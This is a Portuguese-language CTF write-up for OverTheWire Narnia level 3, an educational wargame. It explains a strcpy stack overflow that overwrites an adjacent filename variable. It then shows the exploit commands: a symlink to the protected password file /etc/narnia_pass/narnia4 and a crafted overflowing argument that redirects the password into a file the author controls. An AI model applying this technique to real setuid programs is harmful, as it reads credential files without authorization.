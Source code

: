```yaml
---
layout: post
title: Level 3 - Corrompendo variáveis locais na stack [OverTheWire CTF – Narnia]
date: 2017-01-07 15:55
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire, exploits, stack overflow]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
</ul>

Dando seguimento a série de write ups do <a href="http://overthewire.org/wargames/narnia/">Narnia</a>, chegou a hora de exploitar o level3.

```
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
```

Ele pega o primeiro argumento como o caminho para um arquivo e envia o conteúdo desse arquivo para <a href="https://pt.wikipedia.org/wiki//dev/null">/dev/null</a>? Não parece um programa muito útil.

Antes de qualquer análise, pensei que seria óbvio que, por ter permissões de narnia4, narnia3, de alguma forma, iria ler o conteúdo de <strong>/etc/narnia_pass/narnia4</strong> e nos passar ao invés de jogar em /dev/null e não ajudar ninguém.

Mas como o código fonte está bem perto de nós, vamos observa-lo e descobrir se há alguma forma de explorar esta habilidade de leitura de arquivos.

<script src="https://gist.github.com/anonymous/2978f3a6b1db2a77494d01c58de34384.js"></script>

Nada complexo. Mas vamos por partes.

```
int  ifd,  ofd;
char ofile[16] = /dev/null;
char ifile[32];
char buf[32];
```

As duas primeiras variáveis do tipo inteiro declaradas em main são <strong>ifd</strong> e <strong>ofd</strong>. Como o sugestivo nome indica, servem como <a href="https://en.wikipedia.org/wiki/File_descriptor">file descriptors</a> tanto para o arquivo de entrada, quanto para o de saída.

Na segunda linha vemos um vetor de caracteres chamado <strong>o</strong><del datetime="2017-01-07T14:35:02+00:00">utput</del><strong>file</strong> que guarda o valor "/dev/null". É bem óbvio a razão para a existência do mesmo.

Na terceira, <strong>i</strong><del datetime="2017-01-07T14:35:02+00:00">nput</del><strong>file</strong> é mais um vetor de caracteres, com espaço para 32 dos mesmos, que não é inicializado. É nessa variável que mais tarde o código guardará o nome do arquivo de entrada, ou seja, nosso argumento para o programa.

A sexta e última variável declarada na última linha do código acima é outro vetor de caracteres chamado <strong>buf</strong>. Ele vai ser usado para guardar o conteúdo do arquivo de entrada e depois escrever este conteúdo no arquivo de saída.

Logo depois das declarações de variáveis, há um simples if que verifica se algum argumento foi passado.

```
    if(argc != 2){
        printf(usage, %s file, will send contents of file 2 /dev/null\n,argv[0]);
        exit(-1);
    }
```

A parte seguinte do código usa a função amiga dos buffer overflow e inimiga dos dados guardados na stack, <strong>strcpy</strong>, que sem nenhum cuidado vai copiar argv[1] direto para ifile. E, depois de fazer essa operação perigosa, usa os file descriptors para checar se há permissão de escrita e leitura em ofile, e leitura em ifile.

```
     /* open files */
     strcpy(ifile, argv[1]);
     if((ofd = open(ofile,O_RDWR)) 0 ){
         printf(error opening %s\n, ofile);
         exit(-1);
     }
     if((ifd = open(ifile, O_RDONLY)) 0 ){
         printf(error opening %s\n, ifile);
         exit(-1);
     }
 ```

Para finalizar, a última parte da função lê o ifile e copia o conteúdo para buf e logo depois escreve de buf para ofile. Fechando os arquivos logo depois.

```
    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf(copied contents of %s to a safer place... (%s)\n,ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
    }
 ```

Depois de compreender todo o código, pareceu que para ganhar a flag bastava estourar ifile passando um argumento do mal que executasse /bin/sh assim como foi feito no <a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">último chall</a>. Sei bem que não faria sentido que dois challs seguidos tivessem a mesma resolução, <a href="https://brerodrigues.github.io/category/CTFs">mas já aconteceu coisa parecida antes</a>, então não custava tentar.

Mas essa ideia logo se mostrou impossível assim que mandei um checksec com o binário carregado no gdb aprimorado pelo peda.

```
narnia3@melinda:/tmp/2017$ gdb -q /narnia/narnia3
Reading symbols from /narnia/narnia3...(no debugging symbols found)...done.
(gdb) source /usr/local/peda/peda.py
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

O bit NX, que deriva da expressão em inglês No eXecute, é uma tecnologia usada em alguns processadores e sistemas operacionais que separa de modo rígido as áreas de memória que podem ser usadas para execução de código daquelas que só podem servir para armazenar dados. Ele é usada com propósitos de segurança.

Uma área da memória que esteja marcada com o atributo NX pode ser usada somente para guardar dados, então quaisquer instruções que estejam nela não serão executadas. A técnica serve para prevenir certos tipos de ataques feitos por malwares, quando o programa malicioso insere instruções na área de dados de outro programa, tentando que elas sejam executadas a partir de lá. Esse tipo de ataque é chamado de buffer overflow.

<a href="https://pt.wikipedia.org/wiki/Bit_NX">https://pt.wikipedia.org/wiki/Bit_NX</a></blockquote>

Isso significa que explorar o espaço da stack para guardar um shellcode e tentar executa-lo não irá funcionar.

E agora?

Em outros write ups já falei sobre a famigerada stack. Se você não faz ideia do que seja, recomendo que leia o write up do <a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">level 0</a> do próprio narnia que acredito ter conteúdo suficiente para que você me acompanhe. Mas, como sempre faço, vou deixando links pelo meio do post e te dando a ideia de usar o <a href="https://duckduckgo.com/">Google</a> para ir tirando dúvidas.

No ínicio do processo, a função main vai ser executada e jogar suas variáveis na stack:

<img class="size-full wp-image-1410" src="https://image.ibb.co/ceNeHJ/narnia3_1.png" alt="Um lindo desenho." width="147" height="147" />

Como sabemos, as variáveis não inicializadas apenas terão espaço reservado, por isso fiz referência a elas pelo nome e, no caso de ofile, usei seu valor "/dev/null".

E para não ficar apenas com essa abstração horrível em forma de desenho mais horrível ainda, te recomendo <a href="https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames">este link</a> para que entendas bem melhor do que estou e continuarei falando.

Acredito que você se lembre de quando falei de strcpy. Na 22º linha do código do chall, seja lá qual for o tamanho do argumento que passarmos, ele será copiado para o espaço reservado para ifile. E se este argumento tiver mais de 32 caracteres, os dados irão invadir o espaço de ofile (e o que mais vinher depois, como ofd, ifd...).

Sabendo disso você até pode resolver o chall sozinho. Vá lá e só volte aqui para comparar soluções.

Tendo o poder de corromper o valor de ofile guardado no stack, a primeira ideia é a de modificar esse valor para um arquivo válido e sob nosso controle.

Tomei a liberdade fazer uma pequena alteração do código do chall só para ver isso acontecendo de forma mais prática, observe as inserções na linha 21 e 27:

<script src="https://gist.github.com/anonymous/b78a2c589773cd2c2db5034257e38441.js"></script>

Agora compilando e executando:

```
suamae@yourbox:~/tmp$ gcc narnia3.c -o narnia3
suamae@yourbox:~/tmp$ ./narnia3 `python -c 'print B*32 + ownded'`
Antes: /dev/null
error opening BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBownded
Depois: ownded
```

Exatamente o comportamento esperado.

Exploitation time!

Criei uma pasta em /tmp e dentro dela criei um link simbólico para /etc/narnia_pass/narnia4. O nome desse link era formado pelos 32 B's necessários para preencher todo o espaço de ifile + flag (que é o nome do arquivo que também criei para que o processo escrevesse a flag).

```
narnia3@melinda:~$ cd /narnia
narnia3@melinda:/narnia$ mkdir /tmp/rddi
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/rddi/BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag
narnia3@melinda:/narnia$ cd /tmp/rddi
narnia3@melinda:/tmp/rddi$ touch flag
narnia3@melinda:/tmp/rddi$ /narnia/narnia3 `python -c 'print B*32 + flag'`
copied contents of BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBflag to a safer place... (flag)
narnia3@melinda:/tmp/rddi$ cat flag
c2ljaw==
▒▒▒▒▒4▒▒▒▒_▒▒}0,narnia3@melinda:/tmp/rddi$
```
